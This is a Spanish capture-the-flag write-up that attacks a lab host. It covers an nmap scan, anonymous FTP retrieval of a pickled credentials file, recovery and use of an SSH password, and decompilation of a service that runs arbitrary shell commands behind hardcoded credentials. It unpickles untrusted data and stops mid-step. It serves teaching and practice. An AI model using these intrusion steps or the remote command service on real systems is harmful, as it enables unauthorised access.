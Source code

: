 # Conectividad

![image](https://github.com/user-attachments/assets/e34fa562-5479-4cd4-9745-0412fbda8d81)

# Enumeración

```
sudo nmap -sCV -T4 --min-rate 4000 10.10.237.230
Starting Nmap 7.80 ( https://nmap.org ) at 2025-01-22 11:51 GMT
Nmap scan report for 10.10.237.230
Host is up (0.00020s latency).
Not shown: 997 filtered ports
PORT   STATE  SERVICE  VERSION
20/tcp closed ftp-data
21/tcp open   ftp      vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp            17 May 15  2020 test.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.209.46
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open   ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 04:d5:75:9d:c1:40:51:37:73:4c:42:30:38:b8:d6:df (RSA)
|   256 7f:95:1a:d7:59:2f:19:06:ea:c1:55:ec:58:35:0c:05 (ECDSA)
|_  256 a5:15:36:92:1c:aa:59:9b:8a:d8:ea:13:c9:c0:ff:b6 (ED25519)
MAC Address: 02:5E:41:0A:55:07 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.90 seconds
```

- 21 / FTP - Anonymous
- 22 / SSH

![image](https://github.com/user-attachments/assets/85578d42-3ce4-4c4c-bdd1-8a4187d834f8)

- Recoguemos el test.txt (vsftpd test file)

Nada importante vamos a seguir enumerando

![image](https://github.com/user-attachments/assets/39fa7acb-6ffb-4e14-a6ca-832ed0cdfc3e)

Encontramos otro arhicvo .creds

![image](https://github.com/user-attachments/assets/5be720ef-a981-44cd-914a-f6b95be0614b)

Tiene toda la pinta de ser un archivo en binario

![image](https://github.com/user-attachments/assets/3b45d316-cd7c-452f-bf73-1a5846299c3b)

Parece ser que nos da un output no muy informativo, pero en la CTF nos dicen que deberemos seguramente utilizar librerias de python y la foto de la CTF es un pepinillo con lo cuál podemos ir tirando por una libreria parecida.

En mi caso desde el mismo cyber chief lo voy a exportar a un archivo .dat y de ahi sacare el output de la libreria pickle

Código que voy a utilizar

```
import pickle
with open(“download.dat”, “rb”) as file:
pickle_data = file.read()
creds = pickle.loads(pickle_data)
print(creds)
```
```
root@ip-10-10-209-46:~# cat pickel.py 
import pickle

with open("download.dat", "rb") as file:

	pickle_data = file.read()

creds = pickle.loads(pickle_data)

print(creds)
root@ip-10-10-209-46:~# python3 pickel.py 
[('ssh_pass15', 'u'), ('ssh_user1', 'h'), ('ssh_pass25', 'r'), ('ssh_pass20', 'h'), ('ssh_pass7', '_'), ('ssh_user0', 'g'), ('ssh_pass26', 'l'), ('ssh_pass5', '3'), ('ssh_pass1', '1'), ('ssh_pass22', '_'), ('ssh_pass12', '@'), ('ssh_user2', 'e'), ('ssh_user5', 'i'), ('ssh_pass18', '_'), ('ssh_pass27', 'd'), ('ssh_pass3', 'k'), ('ssh_pass19', 't'), ('ssh_pass6', 's'), ('ssh_pass9', '1'), ('ssh_pass23', 'w'), ('ssh_pass21', '3'), ('ssh_pass4', 'l'), ('ssh_pass14', '0'), ('ssh_user6', 'n'), ('ssh_pass2', 'c'), ('ssh_pass13', 'r'), ('ssh_pass16', 'n'), ('ssh_pass8', '@'), ('ssh_pass17', 'd'), ('ssh_pass24', '0'), ('ssh_user3', 'r'), ('ssh_user4', 'k'), ('ssh_pass11', '_'), ('ssh_pass0', 'p'), ('ssh_pass10', '1')]
```

Si queremos que la información se vea mil veces mas bonita

```
python3 pickel.py | sed 's/), /)\n/g'
```

Como vemos parece ser que representa un carcater, un numero o letra para coger el usuario y contraseña

![image](https://github.com/user-attachments/assets/71e7749d-7103-44b3-8471-42f6c0cf3901)

gherkin:p1ckl3s_@11_@r0und_th3_w0rld

Estamos dentro: 

![image](https://github.com/user-attachments/assets/0b36d598-1403-4443-acd4-6845ab2d3d56)

Nos encontramos un archivo .pyc : cmd_service.pyc

Nos lo descargamos 

```
scp gherkin@10.10.237.230:/home/gherkin/cmd_service.pyc .
```

Necesitaremos la herramienta uncompyle

```
sudo pip install uncompyle6
```

```
uncompyle6 cmd_service.pyc 
# uncompyle6 version 3.9.2
# Python bytecode version base 3.8.0 (3413)
# Decompiled from: Python 2.7.18 (default, Jan 31 2024, 16:23:13) 
# [GCC 9.4.0]
# Embedded file name: ./cmd_service.py
# Compiled at: 2020-05-14 18:55:16
# Size of source mod 2**32: 2140 bytes
from Crypto.Util.number import bytes_to_long, long_to_bytes
import sys, textwrap, socketserver, string, readline, threading
from time import *
import getpass, os, subprocess
username = long_to_bytes(1684630636)
password = long_to_bytes(2457564920124666544827225107428488864802762356L)

class Service(socketserver.BaseRequestHandler):

    def ask_creds(self):
        username_input = self.receive("'Username: ").strip()
        password_input = self.receive("'Password: ").strip()
        print(username_input, password_input)
        if username_input == username:
            if password_input == password:
                return True
        return False

    def handle(self):
        loggedin = self.ask_creds()
        if not loggedin:
            self.send("'Wrong credentials!")
            return
        self.send("'Successfully logged in!")
        while True:
            command = self.receive("'Cmd: ")
            p = subprocess.Popen(command,
              shell=True, stdout=(subprocess.PIPE), stderr=(subprocess.PIPE))
            self.send(p.stdout.read())

    def send(self, string, newline=True):
        if newline:
            string = string + "'\n"
        self.request.sendall(string)

    def receive(self, prompt=b'> '):
        self.send(prompt, newline=False)
        return self.request.recv(4096).strip()


class ThreadedService(socketserver.ThreadingMixIn, socketserver.TCPServer, socketserver.DatagramRequestHandler):
    pass


def main():
    print("Starting server...")
    port = 7321
    host = "0.0.0.0"
    service = Service
    server = ThreadedService((host, port), service)
    server.allow_reuse_address = True
    server_thread = threading.Thread(target=(server.serve_forever))
    server_thread.daemon = True
    server_thread.start()
    print("Server started on " + str(server.server_address) + "!")
    while True:
        sleep(10)


if __name__ == "__main__":
    main()
```

Este scripts contiene credneciales codificadas como vemos lo coge de la libreria cryto simplemente vamos a ver si lo generamos pidiendolo y ya














